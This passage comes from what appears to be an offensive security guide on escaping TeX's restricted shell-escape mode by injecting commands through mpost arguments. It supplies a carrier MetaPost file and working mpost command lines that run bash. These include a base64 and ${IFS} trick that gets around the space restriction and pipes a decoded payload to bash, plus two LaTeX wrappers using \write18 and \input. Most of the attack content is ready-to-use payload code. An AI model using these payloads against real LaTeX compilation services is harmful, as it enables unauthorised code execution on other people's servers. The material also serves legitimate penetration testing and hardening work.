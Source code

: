 The `shell_escape` setting determines the default option in the 3 levels explained above. In the restricted mode the `shell_escape_commands` variable is used to select which commands are allowed as a comma-separated list. These commands should not allow you to do anything malicious, but there is a history of exploiting some of the functionality in these binaries to still perform some interesting actions.&#x20;

If plain `mpost` is allowed (default in earlier versions) the whole protection can be escaped by injecting commands ([source](https://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)). First, any parsable MetaPost file needs to be created to make the command not crash before our payload. This can be an existing file, or possibly a file you created yourself like via uploads:

{% code title="file.txt" %}
```latex
verbatimtex
\documentclass{minimal}
\begin{document}
etex
beginfig (1)
label(btex blah etex, origin);
endfig;
\end{document}
bye
```
{% endcode %}

Then the following `mpost` arguments can execute arbitrary commands:

```bash
mpost -ini '-tex=bash -c (id)>/tmp/pwned' file.txt
```

The example above executes `id`, but trying a more complex command will run into escaping troubles because   **spaces** don't work. To make this easier, you can simply use `${IFS}` to replace the space and use Base64 to describe the real payload ([CyberChef](https://gchq.github.io/CyberChef/#recipe=To\_Base64\('A-Za-z0-9%2B/%3D'\)\&input=aWQgPiAvdG1wL3B3bmVk)):

```bash
mpost -ini '-tex=bash -c (base64${IFS}-d<<<aWQgPiAvdG1wL3B3bmVk|bash)' file.txt
```

Inside of LaTeX, it would look like this:

{% code title="Method 1" %}
```latex
\immediate\write18{mpost -ini '-tex=bash -c (base64${IFS}-d<<<aWQgPiAvdG1wL3B3bmVk|bash)' file.txt}
```
{% endcode %}

{% code title="Method 2" %}
```latex
\input{|"mpost -ini '-tex=bash -c (base64${IFS}-d<<<aWQgPiAvdG1wL3B3bmVk|bash)' file.txt"}
```
{% endcode %}

### Filter Bypass

#### Commands
